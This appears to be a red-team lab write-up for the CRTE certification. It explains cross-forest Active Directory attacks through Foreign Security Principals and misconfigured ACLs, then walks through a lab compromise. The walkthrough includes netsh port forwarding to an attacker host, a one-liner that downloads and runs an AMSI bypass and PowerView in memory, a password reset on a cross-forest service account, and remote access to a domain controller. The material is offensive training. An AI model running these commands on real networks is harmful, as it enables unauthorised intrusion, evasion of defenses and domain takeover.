






CRTE - Certified Red Team Expert
Cross Forest Attacks - Foreign Security Principals & ACLs
Cross-forest attacks rely on the trust relationships established between separate Active Directory forests. When two organizations or entities create a trust, they allow authentication and authorization to extend beyond their individual forest boundaries. One of the key elements in these attacks is the concept of Foreign Security Principals (FSPs) and Access Control Lists (ACLs), which we can manipulate to escalate privileges and move laterally. When a trust is established between two forests, Active Directory automatically creates Foreign Security Principals in the trusting domain to represent users and groups from the trusted forest. These FSPs are identified by their security identifiers (SIDs) and can be assigned permissions within the trusting domain, just like native security principals. The issue arises when these principals are granted excessive permissions or when we can abuse ACLs to escalate privileges. Access Control Lists define who can access or modify objects in Active Directory. If an FSP has overly permissive rights over a critical object, such as a Domain Admin group or a service account, we can leverage these rights to gain higher privileges within the trusting domain. One common attack vector involves modifying ACLs to grant ourselves privileges that allow further exploitation, such as replicating directory services data, adding users to privileged groups, or controlling high-value targets like service accounts. A crucial aspect of these attacks is the abuse of the GenericAll or GenericWrite permissions over key objects. If an FSP has these permissions on a privileged group, we can add ourselves to that group or modify an account’s attributes to escalate our access. Another important permission to look for is WriteDACL, which allows us to modify the ACLs of an object and grant ourselves full control. When targeting service accounts, we may also look for the ability to modify userPassword or msDS-AllowedToDelegateTo attributes, which can enable further privilege escalation. To execute these attacks effectively, we typically need to enumerate trust relationships and analyze ACLs within the trusting domain. Tools like BloodHound can help us visualize these relationships and identify exploitable ACLs. If we control an account in the trusted forest and it has excessive privileges in the trusting forest, we can manipulate ACLs to gain higher access and pivot further into the environment. Once we have a foothold in the trusting forest, our next move depends on the privileges we have gained. If we manage to compromise a privileged account, we can execute attacks such as DCSync, Kerberoasting, or even Golden Ticket attacks to maintain long-term access. If the trust is a two-way trust, we may also have the opportunity to move back into the original forest with elevated privileges. Understanding these attacks requires a strong grasp of how Active Directory trusts work, how security principals are represented across forests, and how ACLs dictate access control. By analyzing the permissions granted to Foreign Security Principals and identifying misconfigurations, we can uncover critical attack paths that allow us to escalate privileges and move laterally across trusted domains.
Use Case Scenario
Let’s say we have two separate Active Directory forests: ForestA.com and ForestB.com. These two organizations decide to establish a trust relationship so that users from ForestA can access resources in ForestB. This is a one-way trust where ForestA is the trusted domain, and ForestB is the trusting domain. This means that users from ForestA can be given access to resources in ForestB, but not the other way around. Once this trust is established, Active Directory automatically creates Foreign Security Principals (FSPs) in ForestB to represent users and groups from ForestA. These FSPs are stored in the ForeignSecurityPrincipals container in ForestB and are referenced by their Security Identifiers (SIDs) rather than traditional usernames. Now, let’s assume that an administrator in ForestB decides to grant access to a shared folder on a file server. Instead of manually creating a new user in ForestB, they add a security group from ForestA to the folder’s permissions. As a result, a Foreign Security Principal (FSP) for that group is created in ForestB, allowing its members from ForestA to access the folder. At first, this may seem harmless. However, the problem arises when these Foreign Security Principals are granted excessive permissions beyond what they should have. Let’s say an administrator in ForestB mistakenly assigns an FSP (which represents a security group from ForestA) Full Control over a sensitive Active Directory group, such as Server Admins or even Domain Admins. If we are a malicious actor who has compromised an account in ForestA that is a member of this security group, we now have control over an administrative group in ForestB. This means we can modify its membership, granting ourselves full administrative rights in ForestB, even though we were never supposed to have that level of access. A more subtle scenario could involve Access Control List (ACL) misconfigurations. Suppose an FSP from ForestA is granted GenericAll or GenericWrite permissions over a user account or security group in ForestB. If we control the compromised account in ForestA, we can modify attributes of the target object in ForestB, potentially resetting passwords, adding ourselves to privileged groups, or escalating access further. Once we have administrative privileges in ForestB, we can move laterally, dump credentials, escalate further, or even establish persistence. The critical issue here is that the administrators in ForestB might not be aware of how much control they are giving to users from ForestA because the permissions are applied to an FSP object identified only by a SID, making it harder to track. This scenario illustrates how an attacker can abuse trust relationships and misconfigured ACLs to escalate privileges across forests. Even though ForestA was not initially compromised, the trust relationship allowed a compromised user in ForestA to gain control over resources in ForestB, leading to a full domain takeover.
Portforwarding to bypass EDR
What If we simply download and execute PowerView in memory on the target machine? We could simply run PowerView calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like PowerView can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like PowerView directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Network Traffic Monitoring: When PowerView is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:

netsh interface portproxy add v4tov4:- netsh interface portproxy: This is the part of the netsh utility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.
- add: Specifies that you're adding a new forwarding rule.
- v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port 8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
- 0.0.0.0 means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port 80 (commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).

Hosting files local files
We should be hosting all the files we will be requesting further more in our attacking host. This will be requested by our Target DB-SQLSRV.
Disabling Defender
Before we carry on with our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining.
Enumerating Forest Trusts
We will be bypassing AMSI and importing PowerView directly into memory using a single command. First, we load an AMSI bypass script from a remote source, which disables the Antimalware Scan Interface (AMSI), preventing PowerShell from detecting and blocking our script execution. Once AMSI is bypassed, we download and execute PowerView, a PowerShell tool used for Active Directory enumeration. By executing both scripts in a single line, we ensure that PowerView runs without interference from AMSI, allowing us to enumerate domain objects stealthily. This approach keeps the execution fileless, meaning no scripts are saved to disk, reducing the chances of detection by antivirus or endpoint security solutions. IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/amsibypass.txt'); IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/PowerView.ps1'); IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/powermad.ps1')
Now that we have bypassed and imported PowerView into the memory, we can start enumerating the Forest Trust configure inside db.local domain. Get-ForestTrust
The enumeration confirms that there is a bidirectional forest trust between db.local and dbvendor.local. This means that both forests trust each other, allowing authentication and resource access across domains. Users from db.local can be granted access to resources in dbvendor.local, and vice versa. Since it is a forest trust, the relationship applies to the entire directory structure within each forest. This also implies the existence of Foreign Security Principals (FSPs) in both forests, representing users or groups from the other forest. If any of these FSPs are assigned excessive permissions within Active Directory, it could be possible to manipulate Access Control Lists (ACLs) to escalate privileges. Given this setup, an attacker with access to one forest may be able to move laterally or escalate privileges into the other if security misconfigurations exist.
Now that we know that db.local has a forest trust with dbvendor.local, let’s enumerate and findout if we do have some interesting ACLs in dbvendor.local forest. Find-InterestingDomainAcl -ResolveGUIDs -Domain 'dbvendor.local'
The ACL enumeration using Find-InterestingDomainAcl reveals that the user srvdba from db.local has GenericAll rights over the service account db163svc in dbvendor.local. This means that srvdba has full control over db163svc, allowing actions such as modifying its attributes, resetting its password, setting SPN on user for Targeted Kerberoasting or adding it to privileged groups. Since db163svc is in dbvendor.local, this could be an entry point for privilege escalation within the dbvendor forest. Given that already controll srvdba (we are srvdba) from db.local, this also indicates a potential cross-forest attack vector, where we could exploit this ACL misconfiguration to gain further access in dbvendor.local.Resetting User’s Account with PowerMad
Let’s use Set-DomainUserPassword from PowerMad to accomplish the task of resetting db163svc account. Set-DomainUserPassword allows you to reset the password of a user in Active Directory without requiring the current password, provided you have the necessary privileges (e.g., GenericAll or ResetPassword rights on the target user). Set-DomainUserPassword -Identity db163svc -AccountPassword (ConvertTo-SecureString 'Stark@123' -AsPlainText -Force) -Domain dbvendor.local –Verbose
We were able to reset db163svc account.
Enumerating Foreign Security Principals with PowerView
The Find-ForeignGroup function helps identify foreign security principals by finding groups in the current domain that contain members from external (trusted) domains or forests. It is useful in cross-domain or cross-forest trust enumeration, where we need to determine which external users or groups have been granted permissions in our environment. Find-ForeignGroup -Verbose
Our Find-ForeignGroup enumeration results indicate that all Foreign Security Principal (FSP) that are member of the Builtin Administrators group in db.local. This means that an account from an external domain (from a trusted forest “dbvendor.local”) has been granted administrative privileges within db.local. The MemberName appears as a Security Identifier (SID) instead of a recognizable username, which confirms that it is an external account from another domain or forest. The MemberDistinguishedName also places it under ForeignSecurityPrincipals, which is the container where Active Directory stores objects representing users or groups from trusted domains. This is significant because it shows that a foreign user or group has high privileges inside db.local, meaning it could be a potential attack path. If this external account gets compromised, an attacker could leverage its permissions to take full control over db.local. To assess the risk, you should investigate which external domain this FSP belongs to and whether it was intentionally granted administrative access. If the compromised user’s SID is listed in the Find-ForeignGroup results, that means the user has administrative privileges in db.local, and we can escalate our attack further. Enumerating the user we compromised earlier by resetting its password, we can confirm that this user is also a valid user from dbvendor.local domain. Note: since this Get-DomainUser -Domain dbvendor.local | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-15613'}
Accessing now db-dc.dc.local with the compromised account db163svc using winrs. winrs -r:db-dc.db.local -u:dbvendor\db163svc -p:Stark@123 cmd
PowerShell Remoting on the reverse shell
We can use PowerShell Remoting to remotlly access the db.local domain controller as well db-eu.db.local. $passwd = ConvertTo-SecureString 'Stark@123' -AsPlainText -Force $creds = New-Object System.Management.Automation.PSCredential ("dbvendor\db163svc", $passwd) $dbdc = New-PSSession -Computername db-dc.db.local -Credential $creds Invoke-Command -scriptblock{whoami;hostname} -Session $dbdc